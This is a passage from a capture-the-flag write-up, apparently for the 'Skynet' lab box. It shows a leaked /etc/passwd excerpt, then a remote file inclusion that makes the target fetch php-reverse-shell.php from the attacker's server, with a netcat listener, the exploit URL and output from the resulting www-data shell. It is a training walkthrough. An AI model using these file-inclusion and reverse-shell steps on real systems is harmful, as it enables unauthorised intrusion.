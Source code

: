 ```
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
    </div>
</div>  
```

As we can see the file contents are embedded into the output, this means that this application is vulnerable. Knowing this we can make use of *<REDACTED> file inclusion* by starting a python http server, `python3 -m http.server`, and having the server get our `php-reverse-shell.php` onto the box.

```
$ nc -lnvp 9001
listening on [any] 9001 ... 
```
        
First set up a `netcat` listener on your attacking machine.

```
http://10.10.146.95/<REDACTED>/administrator/alerts/alertConfigField.php?urlConfig=http://<YOUR IP>:8000/php-reverse-shell.php
```

You can curl this or enter it straight into the address bar.

```      
connect to [<YOUR IP>] from (UNKNOWN) [10.10.146.95] 53430

Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux   
 00:38:45 up 1 min,  0 users,  load average: 0.60, 0.27, 0.10                                                      
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                              
/bin/sh: 0: can't access tty; job control turned off                                                               
$ whoami
www-data
```

We are now on the box.

# Internal

First I stabilized my shell:
